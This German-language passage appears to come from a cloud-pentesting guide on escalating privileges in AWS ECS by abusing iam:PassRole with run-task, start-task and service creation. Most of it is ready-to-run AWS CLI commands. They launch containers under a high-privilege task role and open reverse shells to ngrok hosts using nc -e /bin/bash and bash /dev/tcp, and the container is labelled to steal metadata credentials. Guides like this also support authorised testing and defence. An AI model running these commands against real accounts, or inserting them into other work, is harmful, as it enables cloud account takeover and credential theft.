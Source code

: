 Wenn die IAM-Rolle, die der attacker übergeben kann, genügend Rechte hat, um ein Image aus ECR zu ziehen und die ECS-Task zu starten (`ecr:BatchCheckLayerAvailability`, `ecr:GetDownloadUrlForLayer`,`ecr:BatchGetImage`,`ecr:GetAuthorizationToken`), dann kann der attacker dieselbe IAM-Rolle sowohl für `executionRoleArn` als auch für `taskRoleArn` im `ecs run-task`-Befehl angeben.
```sh
aws ecs run-task --cluster <cluster-name> --launch-type FARGATE --network-configuration "awsvpcConfiguration={subnets=[<subnet-id>],securityGroups=[<security-group-id>],assignPublicIp=ENABLED}" --task-definition <task-definition:revision> --overrides '
{
"taskRoleArn": "arn:aws:iam::<redacted>:role/HighPrivilegedECSTaskRole",
"executionRoleArn":"arn:aws:iam::<redacted>:role/HighPrivilegedECSTaskRole",
"containerOverrides": [
{
"name": "<container-name>",
"command": ["nc", "4.tcp.eu.ngrok.io", "18798", "-e", "/bin/bash"]
}
]
}'
```
**Potentielle Auswirkungen:** Direkter privesc auf jede ECS task role.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`

Wie im vorherigen Beispiel kann ein Angreifer, der die Berechtigungen **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`** in ECS missbraucht, **eine neue Task-Definition erzeugen** mit einem **bösartigen Container**, der die Metadaten-Anmeldeinformationen stiehlt, und **diesen ausführen**.\
In diesem Fall wird jedoch eine Container-Instanz benötigt, um die bösartige Task-Definition auszuführen.
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

aws ecs start-task --task-definition iam_exfiltration \
--container-instances <instance_id>

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
**Potentielle Auswirkung:** Direkter privesc auf jede ECS-Rolle.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, (`ecs:UpdateService|ecs:CreateService)`

Wie im vorherigen Beispiel kann ein Angreifer, der die Berechtigungen **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:UpdateService`** oder **`ecs:CreateService`** in ECS ausnutzt, **eine neue Task-Definition erstellen** mit einem **bösartigen Container**, der die Metadaten-Anmeldeinformationen stiehlt, und diesen ausführen, indem er einen neuen Service mit mindestens 1 laufendem Task erstellt.
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn  "$ECS_ROLE_ARN" \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/8.tcp.ngrok.io/12378 0>&1\\\"\"]}]"
```